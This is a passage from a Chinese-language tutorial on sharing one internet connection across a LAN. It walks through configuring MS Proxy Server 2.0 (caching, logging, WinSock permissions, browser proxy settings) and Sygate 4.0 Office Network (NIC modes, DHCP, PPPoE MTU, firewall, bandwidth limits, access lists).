

当局域网用户访问 Internet 网时，Web Proxy 可把经它传送给客户的信息存入缓存区中，在有效期限内可再次传给其他使用该信息的局域网用户。

- **Caching Expiration Policy（缓存有效期限）**：建议选择 fewer network accesses are more important 项，这样数据在缓存区中的生存期将会延长。
- **Enable active cache**：用来控制主动缓存期，它可设置 Microsoft Proxy 主动上 Internet 上获取缓存信息新版本的周期。
- **Cache size**：可设置缓存区的位置、大小，建议最小在 100MB 以上。当然缓存区越大，越能提高访问速度，减少上因特网的信息流量，不过这也对服务器的硬盘空间有较高需求。

### 4. Logging 的设置：（图8）



Logging 是用来记录局域网内用户的上网情况。选中 Enable Logging 项，Format 中选择 Verbose 则做详细记录，Regular 做较简单的记录。

因为 Web Proxy 会对每台管理的工作站上网情况做出记录，这些记录可存在一个文件中，也可存成一个 ODBC 数据库。在这里我们将日志存在默认的文本文件中如：`E:\winnt\system32\msplogs`。随着上网次数的增加，该文件也会不断增大，建议你可根据访问次数的多少来定义创建新文件的周期。如果你把需要的数据建成一个 ODBC 数据库，将工作日志存在这个数据库中，对该数据库进行处理就可以得到所需要的结果，如根据流量计费等。这样管理起来就更加方便灵活了。

Winsock Proxy 服务器的设置大部分均和 Web Proxy 服务器的设置相同。不同之处在于 Winsock Proxy 服务器有 Protocol 选项，它可用来添加/删除协议。在缺省情况下，设置成能处理所有以主要 TCP/UDP 端口进行通信的协议。

#### 客户端浏览器的设置

#### 1. Microsoft Internet Explorer 的设置

打开 IE 浏览器→查看→Internet 选项→连接，选定通过代理服务器访问 Internet，然后输入代理服务器的地址和端口号，此处的端口号在一般情况下也为 80。

#### 2. Netscape 的设置

在 Netscape 中选择 option → Network Preferences → 单击 Proxy，选中 Manual Proxy Configuration 项。再单击 View 按钮，则可进一步设置指定代理的 IP 地址和通信端口。注意，除非有什么重要原因需要修改端口，否则所有的代理都定为在 80 号端口上通信。

#### 有关常见的功能要求及对应设置的几点说明

不少用户在安装了 MS Proxy Server 2.0 后，上网浏览正常，却无法使用 Outlook Express、OICQ 等软件，其实，MS Proxy Server 支持几乎所有的网络协议，完全能够胜任宽带的应用。MS Proxy Server 有 Web（Web Proxy）、WinSock（WinSock Proxy）和 Socks（Socks Proxy）三个部分的代理服务功能，其中 Web Proxy 支持 HTTP、FTP 等服务，WinSock Proxy 支持 Telnet、电子邮件、RealAudio、IRC、ICQ 等服务，Socks Proxy 负责中转使用 Socks 代理服务的程序与外界服务器间的信息交换。MS Proxy Server 在运行 Windows NT 的服务器上安装后，下面的各工作站就可以使用 Web Proxy 提供的服务，可以上网浏览、使用 FTP 等。如果要使用 WinSock Proxy 和 Socks Proxy 提供的服务，则必须要在客户端安装配置程序，并且要在服务器端进行设置。步骤如下：

#### 1. 配置客户端配置信息

1. 在服务器上单击“开始/程序/Microsoft Proxy Server/Microsoft Management console”，进入“Microsoft 管理控制台”。
2. 右击“WinSock Proxy”，单击“属性”打开“WinSock Proxy Service Properties For yhtserver”对话框，单击“Service”标签中“Configuration”下的“Client Configuration”按钮，打开“Client Installation/Configuration”对话框。
3. 在“WinSock Proxy client”的下面，选择“Computer name”，例如：yhtserver；或选择“IP address”，例如：192.168.100.1，或选择“Manual”，由用户自己手工配置浏览器的 Internet 属性。
4. 选择“Automatically configure Web browser during client setup”功能，在“Proxy”后输入服务器名（如 yhtserver），在“Port”后输入端口号（如 80）。

#### 2. 安装客户端配置程序

MS Proxy Server 在安装过程中会产生一个共享目录“mspclnt”。在 Windows 95/98 的工作站上登录网络进入此共享目录，运行其中的 Setup 程序，安装后重新启动计算机即可，浏览器的“Internet 属性”也会被自动配置好。

#### 3. 访问控制配置

MS Proxy Server 在服务器上的安装完成后，缺省状态是打开了 Web Proxy 和 WinSock Proxy 的访问控制，这意味着 Web 代理服务和 WinSock 代理服务要对与其连接的客户进行合法性检查，再配合 Windows NT 的登录机制，使这两种服务的安全性有了保证。但此时 Web Proxy 服务默认授权给所有客户，即此时所有客户都可以使用 Web Proxy 提供的服务，而 WinSock Proxy 服务默认不授权给任何客户，即此时任何客户都不能使用 WinSock Proxy 提供的服务。现在进行如下操作：

1. 在服务器上单击“开始/程序/Microsoft Proxy Server/Microsoft Management console”，进入“Microsoft 管理控制台”。
2. 右击“WinSock Proxy”，单击“属性”，打开“WinSock Proxy Service Properties For yhtserver”对话框，单击“Permissions”标签。

- **方法一**：点击“Enable access control”，取消选择，即关闭 WinSock Proxy 的存取控制功能。这种方法安全性最低。
- **方法二**：在“Protocol”后选择“Unlimited Access”，点击“Edit”按钮，点击“添加”按钮，选择组客户或单个客户，多次单击“确定”完成设置。此步骤完成对客户的 WinSock 服务访问授权，且所授权限为“无限制的访问”。
- **方法三**：在“Protocol”后选择不同的协议授权给不同的客户。可以有效地对上网的客户进行管理和管制，使系统安全、高效、稳定地运行。

前两种方法客户感觉不到代理服务器的存在，速度很快，但一般不建议这样做，因为降低了安全性。但是在学校公共机房等地方这样设置，可以节省管理开支。

本方法在宽带 IP 城域网用户端 Windows NT 4.0 + Service Pack 6.0 + IIS 4.0 平台上使用 MS Proxy Server 2.0 操作成功，同样适用于 Windows 2000 Server 平台、使用 ADSL 等宽带方式接入的用户。

## 共享上网方案之三：Sygate Office Network

Sygate 是一种支持多用户访问因特网的软件，并且是只通过一台计算机，共享因特网账号，达到上网的目的。Sygate 4.0 版本能在目前诸多流行的操作系统上运行，譬如：Windows 95/98/NT/2000/XP 等操作系统；同时，Sygate 4.0 还支持多数的因特网连接方式，这包括：调制解调器（模拟线路）拨入、ISDN（综合业务数字网）、线缆调制解调器（Cable Modem）、ADSL 以及 DirectPC 等方式。

和其他代理服务器软件（Proxy Server）不同的是，Sygate 在数分钟之内便可以安装完成，安装时可以只装 Server 端，并且通常不需要其他外加的设置。启动后在后台运行，不需要人工的干预。当 Sygate 检测到局域网内有上网要求时，它能自动地连接到因特网上，免去了每次需要手工拨号的烦恼。另外还拥有直观的图形化界面，便于管理，在 TCP/IP 网络上，Sygate Client 能让用户从任何一台计算机上远程监察和管理 Sygate Server。

如果您的局域网服务器使用 Sygate 4.0 和客户机连接，那么客户机不需要安装任何软件或硬件就能够上网，不需要作任何特殊设置就可以使用 ICQ、OICQ 等软件。

下面我们以 Sygate 4.0 Office Network 为例说明，更常用的 Sygate 4.0 Home Network 与此变化不大。首先您要在服务器上安装好上网设备，比如 Modem 或 ISDN，您需要购买正版多用户 Sygate 4.0；如果您只是想测试一下，那么可以使用它的试用版，只支持两个用户，使用一个月。

使用 Sygate 实现局域网用户共享上网可以采取的方案有单网卡和双网卡两种方案。单网卡方案适用于客户端比较少（局域网小于 10 台共享上网），双网卡适用比较大的局域网共享上网。如果使用单网卡来为大局域网提供共享上网服务，一个网卡同时处理 ADSL 信号、局域网信号、共享上网信号就会影响到系统的上网速度。

如果采用单网卡方案，每一台在网络上工作的工作站均需要一个网卡（也称网络适配器），并用网线连接到 HUB 上。网卡能使每一台连接在网络上的计算机或其他网络设备互相通讯。单网卡技术是通过创建一块虚拟网卡来实现的。真实的已安装的网卡用来连接 Cable/DSL Modem。虚拟的网卡用来和局域网中的其他计算机进行通信。网关 PC 设置为 ISP 提供的真实 IP 地址。Sygate 运行在服务器端上，并创建了一个虚拟的 IP：192.168.0.1。这样就无需安装第二块网卡来共享 Internet 连接，从而大大简化了 Cable Modem 和 ADSL 的安装过程。

无论是用单网卡还是双网卡，Sygate 服务器的配置都是基本相同的，下面看看 Sygate 服务器软件的配置。在安装程序结束后，自动执行 Sygate 诊断程序（Sygate Diagnostics），该程序将测试系统配置：

- 系统设置
- 网卡
- TCP/IP 协议和设置

注：如果这三项中的任何一项无法通过测试，安装程序出现一个信息框，描述可能存在的问题，并提出解决方案。退出系统，纠正这些错误，然后再次运行 Sygate 诊断程序（Sygate Diagnostics），在继续执行之前，先连接到因特网。如果你的配置正确，安装程序会显示测试过程是成功的。第一次运行时，出现“软件注册”对话框，在“软件注册”对话框内输入你的姓名、公司的名称、e-mail 地址（可以不输）、序列号以及注册码，然后单击“OK”，如果没有购买 Sygate 许可证，则单击“I Am a Trial User”按钮。

#### Sygate 服务器控制台

运行 Sygate 管理程序（Sygate Manager），打开 Sygate 服务器控制台，将看到 Sygate Manager 提供了几个配置和控制网络的选项：

- **Start/Stop**：开始和取消 Sygate 因特网连接共享功能。
- **Dial/Hang up**：开始和断开拨号网络连接。
- **Resources**：在网络计算机之间提供打印机和文档共享的功能。
- **Help**：为用户提供完整清楚的说明和发现错误的建议。
- **Advanced**：使用户可以配置自己的 Sygate 网络，控制网络安全，管理因特网内容。

点击 Advanced 按钮才能打开扩展设置对服务器进行设置（如图 9）。



### 高级特性包括：

- **Configuration**：通过配置网络连接设置来优化 Sygate。
- **Firewall**：通过 Sygate 个人桌面级防火墙来保护个人数据。
- **Access Rules**：建立规则以允许新的因特网应用程序与动态防火墙协作运行。
- **Activity Log**：估计网络上的因特网通信量。
- **Permissions**：控制因特网上不合适的内容和游戏。

这个窗口左边显示的是网络的连接状态，内部计算机上网使用的带宽和数据量在上半部显示，服务器 Internet 连接状态在下半部显示。点击 Configuration 按钮，进入 Sygate 的设置窗口（如图 10）。



#### 基本设置

- **Use Single NIC Mode Settings**：选中该模式以后输入该网卡内部网络 IP 地址，用于局域网其它计算机共享上网的网关即可。
- **Direct Internet / ISP Connection（Home 版称为 External Connection）**：这里指定 Sygate 使用服务器上哪一个接口（拨号，专线网卡等）用于连接互联网以提供共享上网，这里根据自己的具体情况可以增加、删除提供给 Sygate 使用的互联网接口。Office 版本最多可以同时整合四个互联网接口的带宽提供给客户端使用，扩展网络带宽。
- **Dialup Entry Settings**：选中该项可以让 Sygate 根据局域网客户端访问互联网请求自动拨号，当服务器没有上网，客户端一旦有上网信号，那么 Sygate 服务器可以自动根据所设置的互联网接口中的拨号自动连接 ISP。
- **Auto Disconnect Settings**：自动断线设置，当互联网接口上无数据通过时间达到了所设置的时间后 Sygate 可以自动关闭互联网连接，如果不希望使用自动断线，就选中 Never auto disconnect。
- **Connect additional line if current average traffic exceeds (Office 版)**：当你整合了多个互联网接口的时候，一旦 Internet 某一个时刻每秒访问总数据量超过了这里所设置的速率带宽，那么 Sygate 会自动连接所设置的其他互联网接口以满足客户端要求。
- **Local Network Connections（Home 版本称为 Internal Connection）**：设置服务器上连接内部局域网的哪个接口为局域网用户提供共享上网。
- **Bridge Settings**：网桥设置，用于连接多个不同网段的局域网提供服务，输入这些局域网连接的网桥 IP 地址即可，一般我们很少用到。
- **Options**：系统功能设置，包括：
    - `[Auto-detect newer version]`：自动检查 Sygate 是否存在新版本。
    - `[Enable Internet Sharing]`：打开共享上网服务。
    - `[Enable Address Server (DHCP)]`：打开 Sygate 内置的 DHCP 动态 IP 地址服务，打开它以后客户端只需要设置 IP 地址为自动就可以自动获得客户端 IP、网关、DNS 等参数。选中以后点击 Advanced 按钮还可以对 DHCP 服务的参数进行设置。
    - `[Enable Access log]`：打开 Sygate 的日志记录功能，点击工具条的 Activity Log 就可以察看客户端访问互联网的网址、IP 地址、数据类型等详细记录。注意使用日志功能需要安装微软的 ODBC 数据库驱动程序。
    - `[Enable Bandwidth Management]`：这是 Office 版本才有的客户端使用带宽管理功能，可以限制客户端所使用的网络带宽。

#### 高级设置

在 Configuration 窗口中点击 Advanced 按钮我们可以进入 Sygate 高级设置（如图 11）。





[Address Server] 可以设置 DHCP 动态 IP 自动服务功能，Automatically Determine the IP range 可以使 Sygate 自动决定 IP 地址的分配范围。Use the following assigned IP range 可以手工指定 IP 地址的分配范围。

[Domain Name Server (DNS)] 这里可以手工指定 ISP 的 DNS 服务器搜索序列，这里一般不需要设置，除非 ISP 要求或常常不能用域名访问的时候才需要设置。

[Connection time out] 设置客户端访问某个网站多长时间没有数据传送 Sygate 关闭这个连接收回资源。

[PPPoE Configuration] 当使用 PPPoE 虚拟拨号的时候，由于局域网信号和 PPPoE 信号有可能冲突造成故障，作为网络区分管理信号类别的重要标志之一的 MTU 参数可以解决这个问题，当出现某些网站不能访问，或者访问速度奇慢，带有附件的邮件发送困难的时候降低这里的 MTU 值往往会有意想不到的结果。



#### Sygate 其他管理功能介绍

[Firewall] 防火墙功能，Sygate Office 版本内建了 Sygate personal firewall，可以保障你的网络安全，具有监控主机上程序访问互联网请求，防止木马类程序等功能，点击工具条的 FireWall 按钮就可以打开防火墙设置窗口（如图 12），分为高、普通、低几个安全等级设置。

[Bandwidth management] 客户端使用带宽管理（如图 13），这也是 Sygate Office 版本特有的功能，当在 Configuration 配置窗口中打开带宽管理后我们就可以从菜单的 Tools 中进入进行管理。

在带宽管理中我们看到分两个设置面版，System 基本设置，Group 用户分组。System 中我们可以在 Maximum Bandwidth of server 中指定 Sygate 服务器最多提供用户共享访问互联网的带宽，可以设置的范围从 6 KB/s 到 6000 KB/s。Bottleneck Prevention 选中以后可以让 Sygate 根据用户上网的使用历史动态的分配一定数量带宽，例如常常浏览网页的分配的少点，常下载的分配的多点。

Application Priority 中可以设定用户各种互联网应用程序（浏览器、电子邮件等）可使用的带宽。NewAPP 可以增加新类型的程序，ALL 则不论什么程序都只能使用设定带宽，当你没有进行 Group 分组的情况下，这个设置管理所有用户的访问带宽。

Group 里面就可以对用户进行分组，分组以后可以对某些用户提供多一些带宽，某些则提供较少，方便管理，适应用户的工作特征提高带宽使用效率。

客户端访问控制：点击工具条的 Permission 按钮就可以打开客户端访问控制设置（如图 14）。里面分为 Black/White 黑白名单管理，使用黑名单管理，那么黑名单中的客户就受到访问限制管理，使用白名单管理，那么只有白名单中的客户可以访问授权的功能，其他不在名单中的用户就完全不能访问互联网。在访问管理里面我们可以设置限制的访问类型、IP 地址、端口、起效时间周期等等。

